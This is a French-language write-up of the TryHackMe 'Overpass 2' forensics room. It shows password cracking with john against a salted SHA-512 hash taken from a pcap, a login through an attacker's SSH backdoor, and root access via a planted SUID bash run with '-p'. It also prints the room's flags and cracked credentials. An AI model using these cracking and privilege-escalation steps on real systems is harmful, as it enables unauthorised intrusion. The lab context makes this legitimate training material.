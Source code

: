 ```yaml
---
tags: [cyber, forensics, security, tryhackme, wireshark]
title: TryHackMe - Overpass 2
created: '2020-08-18T20:37:17.830Z'
modified: '2020-08-18T20:59:34.154Z'
---
```


# TryHackMe - Overpass 2

```sh
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
```


Le code du backdoor se trouve : https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go

Il contient un salt : `1c362db832f3f864c8c2fe05f2002a05`
Dans les traces pcap, on a le hash : `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

Pour le craquer on utilise john. Dans un premier temps il faut penser à mettre en forme le hash et le salt ensemble dans un fichier tel que `hash$password`. On utilise alors le format `dynamic=sha512($p.$s)`. 

```sh
kali@kali:~/Documents$ sudo john --crack-status hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format='dynamic=sha512($p.$s)'
Using default input encoding: UTF-8
Loaded 1 password hash (dynamic=sha512($p.$s) [256/256 AVX2 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
november16       (?)
1g 0:00:00:00 DONE (2020-08-18 16:24) 100.0g/s 2016Kp/s 2016Kc/s 2016KC/s yasmeen..spongy
Use the "--show --format=dynamic=sha512($p.$s)" options to display all of the cracked passwords reliably
Session completed
```


On se connecte au backdoor avec le mdp `november16` que l'on a craqué précédemment :

```sh
kali@kali:~/Documents$ ssh 10.10.197.80 -p 2222
kali@10.10.197.80's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

```sh
james@overpass-production:/home/james$ cat user.txt 
thm{d119b4fa8c497ddb0525f7ad200e6567}
```

```sh
james@overpass-production:/home/james$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22 03:40 .
drwxr-xr-x 7 root  root     4096 Jul 21 18:08 ..
lrwxrwxrwx 1 james james       9 Jul 21 18:14 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21 00:36 .cache
drwx------ 3 james james    4096 Aug 18 20:47 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22 03:35 .local
-rw------- 1 james james      51 Jul 21 17:45 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21 00:37 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22 02:57 .suid_bash
drwxrwxr-x 3 james james    4096 Aug 18 20:49 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22 03:40 user.txt
drwxrwxr-x 7 james james    4096 Jul 21 01:37 www
```

Il y a un fichier étrange `.suid_bash` appartenant à `root`, et exécutable par tout le monde. Dans https://gtfobins.github.io/gtfobins/bash/#suid, on apprend que rajouter `-p` après un `bash` suid donne l'accès root sans avoir à sudo :

```sh
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cat /root/root.txt
thm{d53b2684f169360bb9606c333873144d}
```
